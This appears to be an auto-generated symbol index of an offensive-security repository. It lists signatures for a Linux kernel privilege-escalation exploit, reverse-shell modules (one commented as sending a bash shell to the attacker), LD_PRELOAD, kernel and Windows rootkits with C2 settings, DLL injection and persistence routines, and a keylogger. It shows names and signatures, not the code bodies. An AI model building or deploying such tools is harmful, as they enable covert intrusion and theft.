**File Doc:** *gcc exp.c -o exp -l mnl -l nftnl -w*

**Enums:**
- `nft_trans_phase` (line 77)

**Functions:**
- `add_key` (line 147) `static inline key_serial_t add_key(const char *type, const char *description, const void *payload...`
- `keyctl` (line 151) `static inline long keyctl(int operation, unsigned long arg2, unsigned long arg3, unsigned long ar...`
- `bye` (line 155) `void bye(char *info)`
- `do_error_exit` (line 161) `void do_error_exit(char *info)`
- `bye2` (line 167) `void bye2(char *info, char *arg)`
- `spray_keyring` (line 172) `key_serial_t *spray_keyring(uint32_t start, uint32_t spray_size)`
- `spray_keyring_list_del_purpose` (line 190) `key_serial_t *spray_keyring_list_del_purpose(uint32_t spray_size, uint64_t next, uint64_t prev, u...`
- `spray_keyring_list_overwrite_purpose` (line 214) `key_serial_t *spray_keyring_list_overwrite_purpose(uint32_t spray_size, uint64_t len, uint64_t of...`
- `get_keyring_leak` (line 248) `int get_keyring_leak(key_serial_t *id_buffer, uint32_t id_buffer_size)`
- `awake_partial_keys` (line 271) `void awake_partial_keys(key_serial_t *id_buffer, uint32_t idx)`
- `release_keys` (line 279) `void release_keys(key_serial_t *id_buffer, uint32_t id_buffer_size)`
- `release_partial_keys` (line 290) `void release_partial_keys(key_serial_t *id_buffer, int i)`
- `unshare_setup` (line 297) `void unshare_setup(uid_t uid, gid_t gid)`
- `set_stable_table_and_set` (line 322) `void set_stable_table_and_set(struct mnl_socket* nl, const char *name)`
- `set_trigger_set_and_overwrite` (line 385) `void set_trigger_set_and_overwrite(struct mnl_socket* nl, const char *name, const char *set_name)`
- `set_cpu_affinity` (line 438) `void set_cpu_affinity(int cpu_n, pid_t pid)`
- `spray_mqueue` (line 448) `void spray_mqueue(mqd_t mqdes, char *msgptr, int spray_size)`
- `gather_mqueue` (line 463) `int gather_mqueue(mqd_t mqdes, int gather_size)`
- `gather_mqueue_nosave` (line 485) `int gather_mqueue_nosave(mqd_t mqdes, int gather_size)`
- `spray_msg_msg` (line 496) `void spray_msg_msg(unsigned int size, unsigned int amount, int qid)`
- `io_uring_setup` (line 520) `static inline int io_uring_setup(uint32_t entries, struct io_uring_params *p)`
- `io_uring_register` (line 524) `static inline int io_uring_register(int fd, unsigned int opcode, void *arg, unsigned int nr_args)`
- `spray_uring` (line 529) `struct fd_uring *spray_uring(uint32_t spray_size, struct fd_uring *fd_buffer)`
- `release_uring` (line 546) `void release_uring(struct fd_uring *fd_buffer, uint32_t buffer_size)`
- `release_partial_uring` (line 554) `void release_partial_uring(struct fd_uring *fd_buffer, uint32_t buffer_idx)`
- `prepare_root_shell` (line 559) `void prepare_root_shell(void)`
- `create_dummy_file` (line 564) `void create_dummy_file(void)`
- `create_priv_file` (line 572) `void create_priv_file(void)`
- `write_new_modprobe` (line 582) `void write_new_modprobe()`
- `setup_modprobe_payload` (line 601) `void setup_modprobe_payload()`
- `userland_T` (line 605) `void userland_T(int *sema)`
- `sema_up` (line 610) `void sema_up(int *sema)`
- `sema_down` (line 615) `void sema_down(int *sema)`
- `main` (line 620) `int main(int argc, char ** argv)`

**Macros:**
- `_GNU_SOURCE` (line 2) `#define _GNU_SOURCE`
- `MQUEUE_NUM` (line 49) `#define MQUEUE_NUM`
- `INBOUND` (line 52) `#define INBOUND`
- `OUTBOUND` (line 53) `#define OUTBOUND`
- `DESC_MAX` (line 54) `#define DESC_MAX`
- `BUFFER` (line 56) `#define BUFFER`
- `NAMELEN` (line 57) `#define NAMELEN`
- `ERROR_PREFIX` (line 58) `#define ERROR_PREFIX`
- `KEY_DESC_MAX_SIZE` (line 60) `#define KEY_DESC_MAX_SIZE`
- `PREFIX_BUF_LEN` (line 62) `#define PREFIX_BUF_LEN`
- `RCU_HEAD_LEN` (line 63) `#define RCU_HEAD_LEN`
- `SPRAY_KEY_SIZE` (line 65) `#define SPRAY_KEY_SIZE`
- `PHYSMAP_MASK` (line 67) `#define PHYSMAP_MASK`
- `SPRAY_SIZE` (line 69) `#define SPRAY_SIZE`
- `SPRAY_NB_ENTRIES` (line 71) `#define SPRAY_NB_ENTRIES`

**Structs:**
- `keyring_payload` (line 120)
- `leak` (line 126)
- `fd_uring` (line 131)
- `msg` (line 84)
- `msg_header` (line 90)
- `Msg` (line 100)
- `user_rule_t` (line 105)

**Type_Aliases:**
- `key_serial_t` (line 135) `typedef int32_t key_serial_t;`

#### `mysql_hookandroot_lib.c`
**Path:** `modules/mysql_hookandroot_lib.c`

**Functions:**
- `reverse_shell` (line 74) `void reverse_shell(void)` - *fork & send a bash shell to the attacker before starting mysqld*
- `execvp` (line 128) `int execvp(const char* filename, char* const argv[])` - *execvp() hook*

**Macros:**
- `_GNU_SOURCE` (line 50) `#define _GNU_SOURCE`
- `ATTACKERS_IP` (line 64) `#define ATTACKERS_IP`
- `SHELL_PORT` (line 65) `#define SHELL_PORT`
- `INJECTED_CONF` (line 66) `#define INJECTED_CONF`

#### `reverse-shell.c`
**Path:** `modules/reverse-shell.c`

**Functions:**
- `reverse_shell_init` (line 12) `static int __init reverse_shell_init(void)` - *call_usermodehelper function is used to create user mode processes from kernel space*
- `reverse_shell_exit` (line 16) `static void __exit reverse_shell_exit(void)`

#### `revshell.c`
**Path:** `modules/revshell.c`

**Functions:**
- `xlAutoOpen` (line 5) `void __cdecl xlAutoOpen()`
- `DllMain` (line 10) `BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)`

#### `mr.c`
**Path:** `modules/rootkit/mr.c`

**Functions:**
- `get_ld_preload` (line 84) `char *get_ld_preload()`
- `set_ld_preload` (line 87) `void set_ld_preload(const char *ld_preload)`
- `ensure_ld_preload` (line 100) `void ensure_ld_preload()`
- `ensure_pid_file_exists` (line 117) `void ensure_pid_file_exists()`
- `check_elevate` (line 136) `int check_elevate()`
- `write_file` (line 145) `void write_file(const char *path, const char *content, mode_t mode)`
- `crontab` (line 156) `void crontab(const char *path)`
- `generate_random_string` (line 168) `char *generate_random_string()`
- `xdg` (line 178) `void xdg(const char *path, int admin)`
- `kde_plasma` (line 200) `void kde_plasma(const char *path)`
- `copy_binary` (line 215) `void copy_binary(const char *source, const char *destination)`
- `persist` (line 234) `void persist(const char *path)`
- `ensure_key_file_exists` (line 253) `void ensure_key_file_exists()`
- `ensure_hide_file_exists` (line 271) `void ensure_hide_file_exists()`
- `infect_command` (line 289) `void infect_command()`
- `load_rootkit` (line 303) `void load_rootkit()`
- `unload_rootkit` (line 314) `void unload_rootkit()`
- `handle_client` (line 321) `void *handle_client(void *client_socket)`
- `mon_shell` (line 521) `void *mon_shell(void *data)`
- `signal_handler` (line 609) `void signal_handler(int signum)`
- `reboot_system` (line 615) `void reboot_system()`
- `main` (line 639) `int main()`

**Macros:**
- `PORT` (line 31) `#define PORT`
- `BUFFER_SIZE` (line 32) `#define BUFFER_SIZE`
- `MAX_COMMANDS` (line 33) `#define MAX_COMMANDS`
- `DESIRED_LD_PRELOAD` (line 34) `#define DESIRED_LD_PRELOAD`
- `PID_FILE` (line 35) `#define PID_FILE`
- `HIDE_FILE` (line 36) `#define HIDE_FILE`
- `KEY_FILE` (line 37) `#define KEY_FILE`
- `PASSWORD` (line 39) `#define PASSWORD`
- `PATH_MAX` (line 41) `#define PATH_MAX`

**Structs:**
- `Command` (line 43)
- `VirtualFile` (line 49)

#### `mrhyde.c`
**Path:** `modules/rootkit/mrhyde.c`

**Functions:**
- `load_hidden_pids` (line 73) `void load_hidden_pids()`
- `load_hidden_files` (line 93) `void load_hidden_files()`
- `unlink` (line 113) `int unlink(const char *pathname)`
- `kill` (line 125) `int kill(pid_t pid, int sig)`
- `remove` (line 145) `int remove(const char *pathname)`
- `unlinkat` (line 157) `int unlinkat(int dirfd, const char *pathname, int flags)`
- `get_username_from_pid` (line 178) `char* get_username_from_pid(pid_t pid)`
- `should_hide_pid` (line 197) `int should_hide_pid(const char* pid)`
- `should_hide_file` (line 212) `int should_hide_file(const char* filename)`
- `readdir` (line 222) `struct dirent* readdir(DIR* dirp)`
- `fopen` (line 283) `FILE *fopen(const char *pathname, const char *mode)`
- `my_open` (line 327) `int my_open(const char *pathname, int flags, mode_t mode)`
- `my_openat` (line 371) `int my_openat(int dirfd, const char *pathname, int flags, mode_t mode)`
- `stat` (line 415) `int stat(const char *pathname, struct stat *statbuf)`
- `lstat` (line 459) `int lstat(const char *pathname, struct stat *statbuf)`
- `fstat` (line 503) `int fstat(int fd, struct stat *statbuf)`
- `getdents` (line 557) `int getdents(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count)`
- `getdents64` (line 618) `int getdents64(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count)`
- `main` (line 678) `int main()`

**Macros:**
- `HIDDEN_DIR` (line 33) `#define HIDDEN_DIR`
- `HIDDEN_FILE` (line 34) `#define HIDDEN_FILE`
- `HIDDEN_FILE1` (line 35) `#define HIDDEN_FILE1`
- `HIDDEN_FILE2` (line 36) `#define HIDDEN_FILE2`
- `HIDDEN_FILE3` (line 37) `#define HIDDEN_FILE3`
- `HIDDEN_FILE4` (line 38) `#define HIDDEN_FILE4`
- `HIDDEN_FILE5` (line 39) `#define HIDDEN_FILE5`
- `HIDDEN_FILE6` (line 40) `#define HIDDEN_FILE6`
- `HIDDEN_FILE7` (line 41) `#define HIDDEN_FILE7`
- `HIDDEN_FILE8` (line 42) `#define HIDDEN_FILE8`
- `HIDDEN_FILE9` (line 43) `#define HIDDEN_FILE9`
- `PATHMRHYDE` (line 44) `#define PATHMRHYDE`
- `HIDE_DIR` (line 46) `#define HIDE_DIR`
- `HIDE_USER` (line 47) `#define HIDE_USER`
- `MAX_HIDE_PIDS` (line 48) `#define MAX_HIDE_PIDS`
- `PID_FILE_PATH` (line 49) `#define PID_FILE_PATH`
- `FILE_HIDE_PATH` (line 50) `#define FILE_HIDE_PATH`

**Structs:**
- `linux_dirent64` (line 548)

**Type_Aliases:**
- `original_dirent` (line 51) `typedef struct dirent original_dirent;` - *define HIDE_DIR ".grisun0" define HIDE_USER "grisun0" define MAX_HIDE_PIDS 140 define PID_FILE_PATH "/dev/shm/pid" define FILE_HIDE_PATH "/dev/shm/file"*

#### `mrhyde2.c`
**Path:** `modules/rootkit/mrhyde2.c`

**Functions:**
- `load_hidden_pids` (line 63) `void load_hidden_pids()`
- `unlink` (line 83) `int unlink(const char *pathname)`
- `kill` (line 95) `int kill(pid_t pid, int sig)`
- `remove` (line 115) `int remove(const char *pathname)`
- `unlinkat` (line 127) `int unlinkat(int dirfd, const char *pathname, int flags)`
- `get_username_from_pid` (line 148) `char* get_username_from_pid(pid_t pid)`
- `should_hide_pid` (line 167) `int should_hide_pid(const char* pid)`
- `readdir` (line 182) `struct dirent* readdir(DIR* dirp)`
- `fopen` (line 238) `FILE *fopen(const char *pathname, const char *mode)`
- `my_open` (line 275) `int my_open(const char *pathname, int flags, mode_t mode)`
- `my_openat` (line 312) `int my_openat(int dirfd, const char *pathname, int flags, mode_t mode)`
- `stat` (line 349) `int stat(const char *pathname, struct stat *statbuf)`
- `lstat` (line 386) `int lstat(const char *pathname, struct stat *statbuf)`
- `fstat` (line 423) `int fstat(int fd, struct stat *statbuf)`
- `getdents` (line 470) `int getdents(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count)`
- `getdents64` (line 527) `int getdents64(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count)`
- `main` (line 583) `int main()`

**Macros:**
- `HIDDEN_DIR` (line 31) `#define HIDDEN_DIR`
- `HIDDEN_FILE` (line 32) `#define HIDDEN_FILE`
- `HIDDEN_FILE1` (line 33) `#define HIDDEN_FILE1`
- `HIDDEN_FILE2` (line 34) `#define HIDDEN_FILE2`
- `HIDDEN_FILE3` (line 35) `#define HIDDEN_FILE3`
- `HIDDEN_FILE4` (line 36) `#define HIDDEN_FILE4`
- `HIDDEN_FILE5` (line 37) `#define HIDDEN_FILE5`
- `HIDDEN_FILE6` (line 38) `#define HIDDEN_FILE6`
- `HIDDEN_FILE7` (line 39) `#define HIDDEN_FILE7`
- `HIDDEN_FILE8` (line 40) `#define HIDDEN_FILE8`
- `HIDDEN_FILE9` (line 41) `#define HIDDEN_FILE9`
- `PATHMRHYDE` (line 42) `#define PATHMRHYDE`
- `HIDE_DIR` (line 44) `#define HIDE_DIR`
- `HIDE_USER` (line 45) `#define HIDE_USER`
- `MAX_HIDE_PIDS` (line 46) `#define MAX_HIDE_PIDS`
- `PID_FILE_PATH` (line 47) `#define PID_FILE_PATH`

**Structs:**
- `linux_dirent64` (line 461)

**Type_Aliases:**
- `original_dirent` (line 48) `typedef struct dirent original_dirent;` - *define HIDE_DIR ".grisun0" define HIDE_USER "grisun0" define MAX_HIDE_PIDS 140 define PID_FILE_PATH "/dev/shm/pid"*

#### `mrhyde3.c`
**Path:** `modules/rootkit/mrhyde3.c`

**Functions:**
- `__io_uring_setup` (line 73) `static inline int __io_uring_setup(unsigned int entries, struct io_uring_params *p)` - *struct io_uring_sqe *sqes; }; struct io_uring_cq { unsigned *head, *tail, *ring_mask, *ring_entries; struct io_uring_cqe *cqes; }; struct io_uring { int ring_fd; struct io_uring_sq sq; struct io_uring_cq cq; size_t sq_ring_size, cq_ring_size, sqes_size; }; /* Syscalls*
- `__io_uring_enter` (line 76) `static inline int __io_uring_enter(int fd, unsigned int to_submit, unsigned int min_complete,
   ...`
- `__io_uring_register` (line 80) `static inline int __io_uring_register(int fd, unsigned int opcode, const void *arg, unsigned int ...`
- `uring_queue_init` (line 85) `static int uring_queue_init(unsigned int entries, struct io_uring *ring)` - */* Syscalls static inline int __io_uring_setup(unsigned int entries, struct io_uring_params *p) { return syscall(__NR_io_uring_setup, entries, p); } static inline int __io_uring_enter(int fd, unsigned int to_submit, unsigned int min_complete, unsigned int flags, sigset_t *sig) { return syscall(__NR_io_uring_enter, fd, to_submit, min_complete, flags, sig, _NSIG / 8); } static inline int __io_uring_register(int fd, unsigned int opcode, const void *arg, unsigned int nr_args) { return syscall(__NR_io_uring_register, fd, opcode, arg, nr_args); } /* Inicializar anillo*
- `uring_get_sqe` (line 130) `static struct io_uring_sqe *uring_get_sqe(struct io_uring *ring)` - *ring->cq.head = (unsigned *)((char *)cq_ring + params.cq_off.head); ring->cq.tail = (unsigned *)((char *)cq_ring + params.cq_off.tail); ring->cq.ring_mask = (unsigned *)((char *)cq_ring + params.cq_off.ring_mask); ring->cq.ring_entries = (unsigned *)((char *)cq_ring + params.cq_off.ring_entries); ring->cq.cqes = (struct io_uring_cqe *)((char *)cq_ring + params.cq_off.cqes); ring->sq_ring_size = sq_ring_size; ring->cq_ring_size = cq_ring_size; ring->sqes_size = sqes_size; return 0; } /* Obtener SQE*
- `uring_submit` (line 141) `static int uring_submit(struct io_uring *ring)` - *} /* Obtener SQE static struct io_uring_sqe *uring_get_sqe(struct io_uring *ring) { unsigned head = *ring->sq.head; unsigned tail = *ring->sq.tail; unsigned next = tail + 1; if (next - head > *ring->sq.ring_entries) return NULL; struct io_uring_sqe *sqe = &ring->sq.sqes[tail & *ring->sq.ring_mask]; memset(sqe, 0, sizeof(*sqe)); return sqe; } /* Enviar SQE*
- `uring_wait_cqe_timeout` (line 149) `static int uring_wait_cqe_timeout(struct io_uring *ring, struct io_uring_cqe **cqe_ptr, int timeo...` - *struct io_uring_sqe *sqe = &ring->sq.sqes[tail & *ring->sq.ring_mask]; memset(sqe, 0, sizeof(*sqe)); return sqe; } /* Enviar SQE static int uring_submit(struct io_uring *ring) { unsigned tail = *ring->sq.tail; unsigned to_submit = tail - *ring->sq.head; if (!to_submit) return 0; return __io_uring_enter(ring->ring_fd, to_submit, 0, 0, NULL); } /* Esperar CQE con timeout (usa poll)*
- `uring_cqe_seen` (line 163) `static void uring_cqe_seen(struct io_uring *ring, struct io_uring_cqe *cqe)`
- `init_root_ring` (line 176) `static int init_root_ring(void)` - *static void uring_cqe_seen(struct io_uring *ring, struct io_uring_cqe *cqe) { (*ring->cq.head)++; } /* Estado global del rootkit static struct io_uring root_ring; static int ring_initialised = 0; static int ring_ok = 0;           /* indica si el anillo funciona static pthread_mutex_t ring_mutex = PTHREAD_MUTEX_INITIALIZER; char *hide_pids[MAX_HIDE_PIDS]; char *hide_files[MAX_HIDE_PIDS]; /* Inicialización con manejo de errores*
- `uring_read_whole_file` (line 197) `static char *uring_read_whole_file(const char *path)` - *} ring_ok = 1; /* Registrar buffer (opcional) struct iovec iov; iov.iov_base = malloc(IO_URING_BUFFER_SIZE); iov.iov_len = IO_URING_BUFFER_SIZE; if (iov.iov_base) { __io_uring_register(root_ring.ring_fd, IORING_REGISTER_BUFFERS, &iov, 1); free(iov.iov_base); } return 0; } /* Leer archivo completo con io_uring (con timeout)*
- `traditional_read_file` (line 253) `static char *traditional_read_file(const char *path)` - *if (bytes_read <= 0) break; buf = realloc(buf, total_read + bytes_read + 1); if (!buf) { close(fd); pthread_mutex_unlock(&ring_mutex); return NULL; } memcpy(buf + total_read, block, bytes_read); total_read += bytes_read; offset += bytes_read; } while (bytes_read > 0); close(fd); if (buf) buf[total_read] = '\0'; pthread_mutex_unlock(&ring_mutex); return buf; } /* Fallback: leer archivo con métodos tradicionales*
- `load_hidden_pids` (line 268) `void load_hidden_pids(void)` - *FILE *f = fopen(path, "rb"); if (!f) return NULL; fseek(f, 0, SEEK_END); long size = ftell(f); fseek(f, 0, SEEK_SET); char *buf = malloc(size + 1); if (!buf) { fclose(f); return NULL; } size_t read = fread(buf, 1, size, f); buf[read] = '\0'; fclose(f); return buf; } /* Cargar listas con fallback*
- `load_hidden_files` (line 282) `void load_hidden_files(void)`
- `get_username_from_pid` (line 297) `char* get_username_from_pid(pid_t pid)` - *char *data = uring_read_whole_file(FILE_HIDE_PATH); if (!data) data = traditional_read_file(FILE_HIDE_PATH); if (!data) return; char *saveptr, *token; int index = 4; token = strtok_r(data, ",\"\n", &saveptr); while (token && index < MAX_HIDE_PIDS) { hide_files[index++] = strdup(token); token = strtok_r(NULL, ",\"\n", &saveptr); } free(data); } /* get_username_from_pid (tradicional)*
- `should_hide_pid` (line 320) `int should_hide_pid(const char* pid)`
- `should_hide_file` (line 329) `int should_hide_file(const char* filename)`
- `readdir` (line 336) `struct dirent* readdir(DIR* dirp)`
- `unlink` (line 367) `int unlink(const char *pathname)`
- `kill` (line 373) `int kill(pid_t pid, int sig)`
- `remove` (line 383) `int remove(const char *pathname)`
- `unlinkat` (line 389) `int unlinkat(int dirfd, const char *pathname, int flags)`
- `fopen` (line 407) `FILE *fopen(const char *pathname, const char *mode)`
- `open` (line 430) `int open(const char *pathname, int flags, ...)`
- `openat` (line 458) `int openat(int dirfd, const char *pathname, int flags, ...)`
- `stat` (line 487) `int stat(const char *pathname, struct stat *statbuf)`
- `lstat` (line 511) `int lstat(const char *pathname, struct stat *statbuf)`
- `fstat` (line 535) `int fstat(int fd, struct stat *statbuf)`
- `getdents` (line 569) `int getdents(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count)`
- `getdents64` (line 605) `ssize_t getdents64(int fd, void *dirp, size_t count)`

**Macros:**
- `_GNU_SOURCE` (line 7) `#define _GNU_SOURCE`
- `HIDDEN_DIR` (line 33) `#define HIDDEN_DIR`
- `HIDDEN_FILE` (line 34) `#define HIDDEN_FILE`
- `HIDDEN_FILE1` (line 35) `#define HIDDEN_FILE1`
- `HIDDEN_FILE2` (line 36) `#define HIDDEN_FILE2`
- `HIDDEN_FILE3` (line 37) `#define HIDDEN_FILE3`
- `HIDDEN_FILE4` (line 38) `#define HIDDEN_FILE4`
- `HIDDEN_FILE5` (line 39) `#define HIDDEN_FILE5`
- `HIDDEN_FILE6` (line 40) `#define HIDDEN_FILE6`
- `HIDDEN_FILE7` (line 41) `#define HIDDEN_FILE7`
- `HIDDEN_FILE8` (line 42) `#define HIDDEN_FILE8`
- `HIDDEN_FILE9` (line 43) `#define HIDDEN_FILE9`
- `PATHMRHYDE` (line 44) `#define PATHMRHYDE`
- `HIDE_DIR` (line 45) `#define HIDE_DIR`
- `HIDE_USER` (line 46) `#define HIDE_USER`
- `MAX_HIDE_PIDS` (line 47) `#define MAX_HIDE_PIDS`
- `PID_FILE_PATH` (line 48) `#define PID_FILE_PATH`
- `FILE_HIDE_PATH` (line 49) `#define FILE_HIDE_PATH`
- `IO_URING_QUEUE_DEPTH` (line 50) `#define IO_URING_QUEUE_DEPTH`
- `IO_URING_BUFFER_SIZE` (line 51) `#define IO_URING_BUFFER_SIZE`
- `C2_SERVER_IP` (line 52) `#define C2_SERVER_IP`
- `C2_PORT` (line 53) `#define C2_PORT`
- `CQE_TIMEOUT_MS` (line 54) `#define CQE_TIMEOUT_MS`

**Structs:**
- `io_uring_sq` (line 57) - *#define HIDDEN_FILE9 "listener_{line}.sh" #define PATHMRHYDE "mrhyde.so" #define HIDE_DIR ".grisun0" #define HIDE_USER "grisun0" #define MAX_HIDE_PIDS 140 #define PID_FILE_PATH "/dev/shm/pid" #define FILE_HIDE_PATH "/dev/shm/file" #define IO_URING_QUEUE_DEPTH 64 #define IO_URING_BUFFER_SIZE 4096 #define C2_SERVER_IP "192.168.1.100" #define C2_PORT 4444 #define CQE_TIMEOUT_MS 500   /* timeout para esperar CQEs /* Estructuras para io_uring manual*
- `io_uring_cq` (line 61)
- `io_uring` (line 65)
- `linux_dirent64` (line 560)

**Type_Aliases:**
- `original_dirent` (line 312) `typedef struct dirent original_dirent;` - *--------------------------------------------------------------------- HOOKS TRADICIONALES (sin cambios, usan hide_pids/hide_files) ----------------------------------------------------------------------*

#### `rootkit.c`
**Path:** `modules/rootkit/rootkit.c`
**File Doc:** *Define the process name and file name to hide*

**Functions:**
- `regs_override_return` (line 43) `static inline void regs_override_return(struct pt_regs *regs, long new_ret)` - *Define regs_override_return function*
- `hooked_getdents` (line 75) `static int hooked_getdents(struct kretprobe_instance *ri, struct pt_regs *regs)` - *Hooked getdents function*
- `hooked_getdents64` (line 101) `static int hooked_getdents64(struct kretprobe_instance *ri, struct pt_regs *regs)` - *Hooked getdents64 function*
- `hooked_read` (line 127) `static int hooked_read(struct kretprobe_instance *ri, struct pt_regs *regs)` - *Hooked read function to create a backdoor*
- `disable_module_signature_verification` (line 181) `static void disable_module_signature_verification(void)` - *Function to disable module signature verification*
- `hook_syscalls` (line 195) `static int __init hook_syscalls(void)` - *Function to hook system calls*
- `unhook_syscalls` (line 208) `static void __exit unhook_syscalls(void)` - *Function to unhook system calls*

**Macros:**
- `HIDDEN_PROCESS_NAME` (line 26) `#define HIDDEN_PROCESS_NAME`
- `HIDDEN_FILE_NAME` (line 27) `#define HIDDEN_FILE_NAME`
- `LISTENER_IP` (line 28) `#define LISTENER_IP`
- `LISTENER_PORT` (line 29) `#define LISTENER_PORT`
- `SPECIAL_STRING` (line 31) `#define SPECIAL_STRING`
- `SPECIAL_STRING_PORT` (line 34) `#define SPECIAL_STRING_PORT`

#### `backup.c`
**Path:** `modules/win_rootkit/backup.c`

**Functions:**
- `elp` (line 66) `void elp()`
- `ensure_pid_file_exists` (line 86) `void ensure_pid_file_exists()`
- `ensure_key_file_exists` (line 123) `void ensure_key_file_exists()`
- `ensure_hide_file_exists` (line 150) `void ensure_hide_file_exists()`
- `infect_command` (line 179) `void infect_command()`
- `handle_client` (line 204) `DWORD WINAPI handle_client(LPVOID client_socket)`
- `monitor_shell` (line 430) `DWORD WINAPI monitor_shell(LPVOID data)`
- `main` (line 540) `int main()`

**Macros:**
- `PORT` (line 17) `#define PORT`
- `BUFFER_SIZE` (line 18) `#define BUFFER_SIZE`
- `MAX_COMMANDS` (line 19) `#define MAX_COMMANDS`
- `PID_FILE` (line 20) `#define PID_FILE`
- `HIDE_FILE` (line 21) `#define HIDE_FILE`
- `KEY_FILE` (line 22) `#define KEY_FILE`
- `PASSWORD` (line 24) `#define PASSWORD`

**Structs:**
- `Command` (line 27)
- `VirtualFile` (line 33)

#### `mrhyde.c`
**Path:** `modules/win_rootkit/mrhyde.c`

**Functions:**
- `RunExperiment` (line 19) `void __cdecl RunExperiment()` - *Define the RunExperiment function*
- `load_hidden_pids` (line 24) `void load_hidden_pids()`
- `load_hidden_files` (line 47) `void load_hidden_files()`
- `FindProcessId` (line 89) `DWORD FindProcessId(const char* processName)`
- `HideProcessByPID` (line 115) `void HideProcessByPID(DWORD pid)`
- `search_pid` (line 137) `BOOL search_pid()`
- `should_hide_pid` (line 147) `BOOL should_hide_pid(DWORD pid)`
- `should_hide_file` (line 161) `BOOL should_hide_file(const char* filename)`
- `HookedFindFirstFile` (line 171) `HANDLE WINAPI HookedFindFirstFile(LPCSTR lpFileName, LPWIN32_FIND_DATA lpFindFileData)` - *Hook para FindFirstFile*
- `HookedFindNextFile` (line 180) `BOOL WINAPI HookedFindNextFile(HANDLE hFindFile, LPWIN32_FIND_DATA lpFindFileData)` - *Hook para FindNextFile*
- `HookedCreateToolhelp32Snapshot` (line 189) `HANDLE WINAPI HookedCreateToolhelp32Snapshot(DWORD dwFlags, DWORD th32ProcessID)` - *Hook para CreateToolhelp32Snapshot*
- `HookedProcess32First` (line 198) `BOOL WINAPI HookedProcess32First(HANDLE hSnapshot, LPPROCESSENTRY32 lppe)` - *Hook para Process32First*
- `HookedProcess32Next` (line 210) `BOOL WINAPI HookedProcess32Next(HANDLE hSnapshot, LPPROCESSENTRY32 lppe)` - *Hook para Process32Next*
- `HookFunctions` (line 222) `void HookFunctions()` - *Función para realizar el hooking de las funciones*
- `DllMain` (line 272) `BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)`

**Macros:**
- `MAX_HIDE_PIDS` (line 7) `#define MAX_HIDE_PIDS`
- `PID_FILE_PATH` (line 8) `#define PID_FILE_PATH`
- `FILE_HIDE_PATH` (line 9) `#define FILE_HIDE_PATH`

#### `win_ring3_rootkit.c`
**Path:** `modules/win_rootkit/win_ring3_rootkit.c`

**Functions:**
- `DownloadDLL` (line 79) `BOOL DownloadDLL(const char* url, PBYTE* buffer, DWORD* size)`
- `ReflectiveLoadDLL` (line 99) `BOOL ReflectiveLoadDLL(PBYTE dllBuffer, DWORD dllSize)`
- `initPIDArray` (line 146) `void initPIDArray(PIDArray *array)` - *Función para inicializar el arreglo de PIDs*
- `addPID` (line 153) `void addPID(PIDArray *array, DWORD pid)` - *Función para agregar un PID al arreglo*
- `freePIDArray` (line 162) `void freePIDArray(PIDArray *array)` - *Función para liberar la memoria del arreglo de PIDs*
- `getPIDsFromTasklist` (line 166) `void getPIDsFromTasklist(PIDArray *pidArray)`
- `AddDllToAppInitDLLs` (line 191) `BOOL AddDllToAppInitDLLs(const char* dllPath)`
- `GetProcessIdByName` (line 240) `DWORD GetProcessIdByName(const char* processName)`
- `Gifted` (line 270) `BOOL Gifted(DWORD processId, const char* dllPath)`
- `elp` (line 362) `void elp()`
- `ensure_pid_file_exists` (line 382) `void ensure_pid_file_exists()`
- `ensure_key_file_exists` (line 419) `void ensure_key_file_exists()`
- `ensure_hide_file_exists` (line 446) `void ensure_hide_file_exists()`
- `giveGift` (line 475) `BOOL giveGift()`
- `handle_client` (line 526) `DWORD WINAPI handle_client(LPVOID client_socket)`
- `monitor_shell` (line 755) `DWORD WINAPI monitor_shell(LPVOID data)`
- `main` (line 865) `int main()`

**Macros:**
- `PORT` (line 18) `#define PORT`
- `BUFFER_SIZE` (line 19) `#define BUFFER_SIZE`
- `MAX_COMMANDS` (line 20) `#define MAX_COMMANDS`
- `PID_FILE` (line 21) `#define PID_FILE`
- `HIDE_FILE` (line 22) `#define HIDE_FILE`
- `KEY_FILE` (line 23) `#define KEY_FILE`
- `PASSWORD` (line 25) `#define PASSWORD`

**Structs:**
- `Command` (line 28)
- `VirtualFile` (line 34)
- `PIDArray` (line 40)

### CPP (1 files)

#### `win_ring3_rootkit.cpp`
**Path:** `modules/win_rootkit/win_ring3_rootkit.cpp`

**Functions:**
- `get_username_from_pid` (line 42) `char* get_username_from_pid(DWORD pid)`
- `should_hide_pid` (line 65) `int should_hide_pid(const char* pid)`
- `hook_FindFirstFile` (line 75) `HANDLE WINAPI hook_FindFirstFile(CONST char* path, WIN32_FIND_DATA* find_data)`
- `hook_CreateFile` (line 85) `HANDLE WINAPI hook_CreateFile(CONST char* path, DWORD access, DWORD share, LPSECURITY_ATTRIBUTES ...`
- `DllMain` (line 94) `BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)`

**Macros:**
- `HIDDEN_DIR` (line 32) `#define HIDDEN_DIR`
- `HIDDEN_FILE` (line 33) `#define HIDDEN_FILE`
- `HIDE_USER` (line 34) `#define HIDE_USER`
- `MAX_HIDE_PIDS` (line 35) `#define MAX_HIDE_PIDS`

### CS (1 files)

#### `win_rin3_rootkit.cs`
**Path:** `modules/win_rootkit/win_rin3_rootkit.cs`

**Classes:**
- `WinRing3Rootkit` (line 32)
- `WIN32_FIND_DATA` (line 47)
- `SECURITY_ATTRIBUTES` (line 64)
- `TOKEN_USER` (line 123)
- `SID_AND_ATTRIBUTES` (line 129)
- `SID` (line 136)

**Methods:**
- `GetUsernameFromPid` (line 145)
- `ShouldHidePid` (line 203)
- `HookFindFirstFile` (line 214)
- `HookCreateFile` (line 226)

### H (1 files)

#### `keylogger.h`
**Path:** `modules/backdoor/keylogger.h`

**Functions:**
- `logg` (line 1) `DWORD WINAPI logg(LPVOID lpParam)`

### JS (21 files)

#### `3d-force-graph-1.73.4.min.js`
**Path:** `static/js/3d-force-graph-1.73.4.min.js`
